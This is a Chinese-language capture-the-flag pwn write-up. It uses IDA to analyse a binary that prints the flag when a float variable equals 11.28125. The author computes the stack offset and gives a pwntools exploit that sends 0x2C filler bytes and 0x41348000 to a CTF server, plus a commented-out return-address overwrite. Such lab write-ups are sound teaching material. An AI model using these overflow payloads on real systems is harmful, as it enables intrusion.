






- 下载附件托入IDA进行分析main：
    
    经过一些前置处理之后会进入func()函数

- 跟进func()函数：
    
    逻辑很简单，当``v2==11.28125``时，即可输出flag

- 分别查看v1和v2的栈：
    
    
    可以看到v1和v2的距离是``0x30-0x4=0x2C``

- 查看func()函数对应汇编代码：
    
    ``ucomiss xmm0, cs:dword_4007F4``对应``v2 == 11.28125``
    
- 跟进dword_4007F4进行查看：
    
    红框内容就是``11.28125``，所以只需要对v1输入垃圾数据实现溢出，覆盖到v2并输入``0x41348000``即可

- EXP：
    ```python
    from pwn import *

    a = remote("node4.anna.nssctf.cn",29705)

    # payload = b"A" * 0x38 + p64(0x4006BE)
    payload = b"A" * 0x2C + p64(0x41348000)

    a.sendline(payload)
    a.interactive()
    ```
    